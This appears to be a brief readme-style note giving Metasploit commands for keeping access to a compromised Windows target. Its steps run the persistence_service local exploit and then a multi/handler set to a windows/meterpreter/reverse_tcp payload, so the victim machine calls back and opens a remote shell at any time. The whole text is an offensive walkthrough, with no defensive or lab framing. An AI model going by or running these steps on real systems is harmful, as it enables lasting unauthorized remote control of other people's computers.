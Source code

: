 
__To use this script you need to have access to the target system__
- __`search persistence_service`__
  - __`use exploit/windows/local/persistence_service`__
  - __remember the `LPORT` because we use same port to login__
  - __when you got successfully got persistence service then you can access the target anytime__
  - __So when you load the msfconsole do this things__
  - __`use multi/handler`__
  - __`set payload windows/meterpreter/reverse_tcp`__
  - > __You should use the same payload that you used before__
  - __set the `LHOST` and `LPORT` that you used before__
